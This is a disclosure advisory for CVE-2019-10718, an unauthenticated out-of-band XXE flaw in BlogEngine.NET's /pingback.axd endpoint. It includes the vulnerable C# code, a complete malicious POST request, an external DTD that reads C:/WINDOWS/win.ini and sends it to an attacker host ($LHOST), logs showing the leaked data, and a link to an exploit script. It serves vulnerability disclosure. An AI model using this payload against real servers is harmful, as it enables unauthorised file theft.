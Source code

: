 An Out-of-band XML External Entity attack, CVE-2019-10718, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/pingback.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* https://github.com/rxtur/BlogEngine.NET/releases

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 18 Jun 2019

## Description

The vulnerable code can be found here:

~~~{.cs command="PingbackHandler.cs"}
331:        private static XmlDocument RetrieveXmlDocument(HttpContext context)
332:        {
333:            var xml = ParseRequest(context);
334:            if (!xml.Contains("<methodName>pingback.ping</methodName>"))
335:            {
336:                context.Response.StatusCode = 404;
337:                context.Response.End();
338:            }
339:
340:            var doc = new XmlDocument();
341:            doc.LoadXml(xml);
342:            return doc;
343:        }
~~~

The string `<methodName>pingback.ping</methodName>` must appear in the body of the request; the XML resolver is not set so External Entities can be processed.

An unauthenticated user can submit a `POST` containing a malicious XML body such as:

~~~
POST /pingback.axd HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 134

<?xml version="1.0"?>
    <!DOCTYPE foo SYSTEM "http://$LHOST/ex.dtd">
    <foo>&e1;</foo>
<methodName>pingback.ping</methodName>
~~~

<pagebreak></pagebreak>

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /ex.dtd HTTP/1.1" 200 326 "-" "-"
~~~

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## Exploit

The exploit available at <https://github.com/irbishop/CVEs/blob/master/2019-10718/exploit.py> attempts to request the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
